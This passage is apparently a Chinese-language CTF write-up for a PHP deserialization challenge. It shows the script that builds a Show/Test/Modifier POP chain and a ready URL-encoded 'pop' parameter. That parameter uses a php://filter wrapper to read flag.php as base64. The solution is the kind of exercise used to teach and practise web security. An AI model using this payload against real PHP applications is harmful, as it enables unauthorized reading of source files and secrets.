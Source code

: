 ```php

class Show{
    public $source;
    public $str;
//    public function __construct($file='index.php'){
//        $this->source = $file;
//        echo 'Welcome to '.$this->source."<br>";
//    }
//    public function __toString(){
//        return $this->str->source;
//    }

//    public function __wakeup(){
//        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
//            echo "hacker";
//            $this->source = "index.php";
//        }
//    }
}

class Test{
    public $p;
//    public function __construct(){
//        $this->p = array();
//    }
//
//    public function __get($key){
//        $function = $this->p;
//        return $function();
//    }
}

//if(isset($_GET['pop'])){
//    @unserialize($_GET['pop']);
//}
//else{
//    $a=new Show;
//    highlight_file(__FILE__);
$a=new Show();
$a->source=new Show();
$a->source->str=new Test();
$a->source->str->p=new Modifier();
echo urlencode(serialize($a));
```

运行得到pop链

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732848347234-66b63d0d-f17d-47c6-aa17-dc2417088068.png)

上传参数pop

```php
?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BN%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
```
